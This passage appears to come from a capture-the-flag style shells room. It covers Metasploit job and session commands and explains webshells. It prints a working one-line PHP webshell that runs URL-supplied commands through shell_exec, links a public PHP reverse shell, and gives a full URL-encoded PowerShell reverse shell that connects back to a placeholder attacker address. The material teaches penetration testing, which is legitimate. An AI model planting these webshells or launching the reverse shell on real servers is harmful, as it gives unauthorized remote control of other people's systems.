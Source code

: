 `exploit -j`

2. If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

`sessions 10`

## Task 11 WebShells

There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. See the Upload Vulnerabilities Room for a more extensive look at this concept.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

![](https://i.imgur.com/W19gHwL.png)

Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the `ifconfig` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```ps1
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
